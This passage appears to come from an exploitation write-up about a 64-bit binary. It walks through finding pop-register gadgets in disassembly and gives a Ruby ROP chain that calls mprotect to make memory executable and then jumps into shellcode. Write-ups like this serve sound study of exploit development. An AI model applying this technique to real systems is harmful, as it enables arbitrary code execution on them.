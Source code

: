 The tricky part with exploiting a 64-bit application is that function calls no longer use the stack to pass arguments; the calling convention is [register-based](https://en.wikipedia.org/wiki/X86_calling_conventions#System_V_AMD64_ABI). Since `mprotect` requires 3 arguments, we need to find a way to set the first three registers: `rdi`, `rsi`, and `rdx`. I struggled to find a good way to set additional registers, which is why we didn't use `mmap`.

So, once again, I'm too lazy to do it the easy way so I just scoured the code for useful gadgets to set the registers. I ended up finding the following three gadgets...

`pop rdi / ret` (`5f c3`):

```
.text:0000000000401D8F 41 5F                             pop     r15 ; 5f = pop rdi
.text:0000000000401D91 C3                                retn
```

`pop rsi / ret` (`5e c3`):

```
.text:000000000040F781 41 5E                             pop     r14
.text:000000000040F783 C3                                retn
```

And `pop rdx / pop rbx / ret` (`5a 5b c3`), once again loading `rbx` with data it'll never use:

```
.text:00000000004696D7 5A                                pop     rdx
.text:00000000004696D8 5B                                pop     rbx
.text:00000000004696D9 C3                                retn
```

Using these three values, I could set up the call to `mprotect`:

```ruby
stack += [
  POP_RDI_RET,
  WRITEABLE_MEMORY,

  POP_RSI_RET,
  SHELLCODE.length,

  POP_RDX_POP_RBX_RET,
  PROTECT_READ_WRITE_EXEC,
  INDIFFERENT_VALUE, # Goes into ebx, don't care

  MPROTECT, # memprotect(WRITABLE_MEMORY, (length), +rwx)
].pack('q*')
```

Then finally, at the end, returning to the start of the shellcode that we just made executable:

```
stack += [
  # Return into the shellcode
  WRITEABLE_MEMORY,
].pack('q*')
```
